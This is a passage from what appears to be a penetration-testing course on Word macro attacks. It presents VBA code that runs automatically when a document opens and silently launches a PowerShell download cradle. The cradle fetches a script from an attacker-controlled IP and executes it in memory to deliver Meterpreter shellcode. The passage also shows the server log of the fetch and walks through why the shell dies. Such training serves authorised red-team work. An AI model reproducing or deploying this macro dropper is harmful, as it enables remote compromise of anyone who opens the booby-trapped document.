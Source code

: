 > Listing 37 - Multi/handler catches Meterpreter shellcode executed by PowerShell

Now we need to trigger this from a Word macro. However, we won't simply embed the PowerShell code in VBA. Instead, we'll create a cradle that will download our code into memory and execute it.

Here's the code for the download cradle:

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

> Listing 38 - VBA code calling the PowerShell cradle that executes the shellcode runner

First, we declared a string variable containing the PowerShell invocation of the download cradle through the _Net.WebClient class_. Once the PowerShell script has been downloaded into memory as a string, it then executes using _Invoke-Expression_ (IEX). This entire code execution is triggered with the _Shell_ command.

Notice that the download cradle references **run.ps1** in the web root of our Kali machine. To execute our code, we'll first copy our PowerShell shellcode runner into the **run.ps1** file on our Kali Apache web server.

Next we'll open Microsoft Word and insert the VBA code from Listing 38 into our macro and execute it.

However, we don't catch a shell in our multi/handler. Let's try to troubleshoot.

First, we know the macro is executing because our Kali machine's Apache logs reveal the GET request for the shellcode runner:

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.11 - - [08/Jun/2024:05:21:22 -0400] "GET /run.ps1 HTTP/1.1" 200 4202 "-" "-"
```

> Listing 39 - Apache access log showing our run.ps1 script being fetched

On the Windows side, if we use Process Explorer, and we are quick, we might notice that a PowerShell process is being created but then quickly terminates.

The reason for this is fairly straightforward. Our previous VBA shellcode runner continued executing because we never terminated its parent process (Word). However, in this version, our shell dies as soon as the parent PowerShell process terminates. Our shell is essentially being terminated before it even starts.
